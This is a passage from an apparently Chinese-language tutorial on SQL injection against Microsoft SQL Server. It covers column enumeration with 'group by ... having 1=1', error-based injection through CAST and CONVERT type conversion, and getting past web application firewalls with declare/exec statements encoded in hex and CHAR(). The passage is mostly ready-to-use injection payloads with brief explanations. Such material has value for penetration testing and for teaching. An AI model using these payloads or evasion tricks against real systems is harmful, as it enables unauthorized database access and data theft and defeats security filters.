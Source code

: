 爆出当前表和字段

```
http://192.168.130.137/1.aspx?id=1 group by info.id,info.name having 1=1

```

爆出所有的字段

# 0x07 报错注入

在上一章我们已经了解到了报错注入，其实MSSQL报错注入利用的就是显示或隐式转换来报错注入,比如以下就是典型的隐式转换

```sql
select * from admin where id =1 and (select user)>0--

select * from admin where id =1|(select user)--

在将 nvarchar 值 'dbo' 转换成数据类型 int 时失败。

```

显示转换也就是利用函数来转换，我们经常用到的两个函数就是cast和convert

```sql
CAST( expression AS data_type )

CONVERT(data_type[(length)], expression [, style])

```

```mssql
select * from admin where id =1 (select CAST(USER as int))

select * from admin where id =1 (select convert(int,user))

```



#### 简单绕过

因为在前面一章我已经写过一些简单的报错注入了，所以这里引进一个`declare` 函数，他是mssql声明局部变量的函数，我们经常用它来绕过waf对一些关键词的拦截

```mssql
select * from admin where id =1;declare @a nvarchar(2000) set @a='select convert(int,@@version)' exec(@a) --

```

declare定义变量 set设置变量值 exec执行变量


变量的值是支持hex和ascii码的,当过滤引号我们就可以这么用 把我们的语句编码一下

```mssql
select * from admin where id =1;declare @s varchar(2000) set @s=0x73656c65637420636f6e7665727428696e742c404076657273696f6e29 exec(@s)--

select * from admin where id =1;declare @s varchar(2000) set @s= CHAR(115) + CHAR(101) + CHAR(108) + CHAR(101) + CHAR(99) + CHAR(116) + CHAR(32) + CHAR(99) + CHAR(111) + CHAR(110) + CHAR(118) + CHAR(101) + CHAR(114) + CHAR(116) + CHAR(40) + CHAR(105) + CHAR(110) + CHAR(116) + CHAR(44) + CHAR(64) + CHAR(64) + CHAR(118) + CHAR(101) + CHAR(114) + CHAR(115) + CHAR(105) + CHAR(111) + CHAR(110) + CHAR(41) exec(@s)--

```
